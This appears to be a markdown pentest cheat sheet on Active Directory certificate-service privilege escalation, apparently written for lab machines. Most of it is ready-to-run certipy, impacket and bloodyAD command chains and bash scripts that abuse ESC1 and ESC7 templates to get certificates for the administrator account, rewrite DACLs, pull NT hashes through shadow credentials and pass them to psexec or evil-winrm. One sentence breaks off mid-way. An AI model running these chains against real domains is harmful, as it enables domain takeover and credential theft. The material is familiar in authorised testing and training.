 ```yaml
---
title: AD Privilege Escalation
---
```


# Active Directory Privilege Escalation

- [Hacktricks CS Domain Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2)
- [Hacktricks Certificates](https://book.hacktricks.xyz/crypto-and-stego/certificates)
- [impacket](https://github.com/fortra/impacket)
- [certipy](https://github.com/ly4k/Certipy)

## Certificate Authority stuff
- [whitepaper on ESC](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)

```bash
certipy-ad find -u my_user -p my_password123 -dc-ip 10.10.10.10
```

In the `.txt` file, look for:
```bash
# Template Name                       : ESC1
# Display Name                        : Escee 1
# Certificate Authorities             : COMPANY-CA
# ...
Enabled                             : True
Enrollee Supplies Subject           : True
Enrollment Rights                   : Company.org\Domain Computers
Enrollment Rights                   : Company.org\Domain Users
```

### Enrollment Rights Domain Computers
```bash
python impacket/examples/addcomputer.py company.org/my_user:'my_password123' -dc-ip 10.10.10.10 -computer-name "newcomputer1" -computer-pass 'newpass1'
```
```bash
certipy-ad req -username 'newcomputer1$' -password 'newpass1' -ca 'COMPANY-CA' -target 10.10.10.10 -template 'ESC1' -upn "administrator@company.org" -dns dns.company.org
```
```bash
certipy-ad auth -pfx administrator_company.pfx -dc-ip 10.10.10.10 -ldap-shell
```

## Vulnerable Certificate Authority Access Control - ESC7
- [Hacktricks ESC7](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7)
```bash
#!/bin/bash

theca='xxxx-DC01-CA'
theuser='xxx@xxx.com'
theusername='xxxxx'
theadmin='administrator@xxx.com'
thepassword='xxxxxxxxx'
theip='x.x.x.x' 
thetarget='xxx.com'

certipy-ad ca -ca $theca -add-officer $theusername -username $theuser -password $thepassword -dc-ip $theip
certipy-ad ca -ca $theca -enable-template SubCA -username $theuser -password $thepassword -dc-ip $theip

REQUEST_ID=$(echo "y" | certipy-ad req -username $theuser -password $thepassword -ca $theca -target $thetarget -template SubCA -upn $theadmin -dc-ip $theip | awk -F' ' '/Request ID is/ {print $5}')
echo "Request ID: $REQUEST_ID"

certipy-ad ca -ca $theca -issue-request $REQUEST_ID -username $theuser -password $thepassword -dc-ip $theip
certipy-ad req -username $theuser -password $thepassword -ca $theca -target $thetarget -retrieve $REQUEST_ID -dc-ip $theip

certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain $thetarget -dc-ip $theip
```

```bash
# this returns a hash
certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain $thetargetdomain -dc-ip $theip

# use the hash here
python psexec.py -hashes hhhhhhhh:hhhhhhhhh administrator@xxxx.com
```

## Another ESC like exploit

We found a certificate configuration that grants one of our users 

```bash
certipy-ad find -dc-ip $the_ip -target $the_dc -enabled -username $the_user -p $the_password
```

```bash
#!/bin/bash

export the_ip=10.129.2.81
export the_dc='DC01.xxx.yyy'
export the_ca='xxx-DC01-CA'
export the_domain='xxx.yyy'
export the_user='user-that-i-have-access-to'
export the_password='the-password-of-that-user'
export the_ca_user='the-user-which-has-full-rights-on-the-template'
export the_admin='administrator'
export the_admin_at='administrator@xxx.yyy'
export KRB5CCNAME="$PWD/$the_ca_user.ccache"
export the_vulnerable_template='the-vulnerable-template'

# Give Full Control over to the less permissioned user
bloodyAD --host $the_dc -d $the_domain -u $the_user -p $the_password set owner $the_ca_user $the_user
impacket-dacledit -action 'write' -rights 'FullControl' -principal $the_user -target $the_ca_user "$the_domain/$the_user:$the_password"

# Authenticate 
hash1=$(certipy-ad shadow auto -u "$the_user@$the_domain" -p $the_password -dc-ip $the_ip -target $the_dc -account $the_ca_user | awk '/NT hash for / {print $NF}' | tail -n 1)
certipy-ad template -k -template $the_vulnerable_template -target $the_dc -dc-ip $the_ip
certipy-ad req -u $the_ca_user -hashes $hash1 -ca $the_ca -target $the_dc -dc-ip $the_ip -template $the_vulnerable_template -upn $the_admin_at
certipy-ad auth -pfx "./$the_admin.pfx" -dc-ip $the_ip 

# evil-winrm -i $the_dc -u administrator -H <hash-from-last-step> 
```